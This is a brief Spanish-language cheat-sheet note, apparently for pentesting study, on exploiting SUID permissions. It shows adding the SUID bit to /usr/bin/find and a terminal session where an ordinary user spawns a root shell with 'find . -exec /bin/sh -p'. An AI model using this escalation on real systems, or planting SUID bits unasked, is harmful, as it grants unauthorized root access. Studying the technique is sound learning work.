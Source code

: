 # Explotacion de permisos SUID
\[GTFOBins]\(https://gtfobins.github.io/\) |

* Agregarle los permiso SUID a un comando
  ```bash
    chmod 4755 /usr/bin/find
  ```

Los permiso SUID nos permite ejecutar cualquier binario como si fueramos el propietario de forma temporal 

```bash
[root@user]# su pepito
[pepito@user]$ find . -exec /bin/sh -p \; -quit
sh-5.1# whoami
root
sh-5.1#
```
